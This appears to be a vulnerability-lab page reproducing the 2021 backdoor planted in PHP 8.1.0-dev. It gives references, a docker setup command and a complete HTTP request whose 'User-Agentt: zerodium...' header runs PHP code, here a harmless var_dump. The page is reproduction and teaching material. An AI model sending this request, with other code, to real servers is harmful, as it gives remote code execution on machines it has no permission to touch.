

PHP 8.1.0-dev User-Agentt Backdoor Remote Code Execution¶
PHP version 8.1.0-dev was implanted with a backdoor on March 28, 2021, but the backdoor was quickly discovered and removed. When this backdoor is present on a server, an attacker can execute arbitrary code by sending a User-Agentt header.
References:
- https://news-web.php.net/php.internals/113838
- https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d
- https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
Vulnerable Environment¶
Start a PHP 8.1-dev server with the backdoor.
docker compose up -d
After the environment is started, the service runs at http://your-ip:8080.
Vulnerability Reproduce¶
Send the following request to execute the code var_dump(233*233);:
GET / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
User-Agentt: zerodiumvar_dump(233*233);
Connection: close
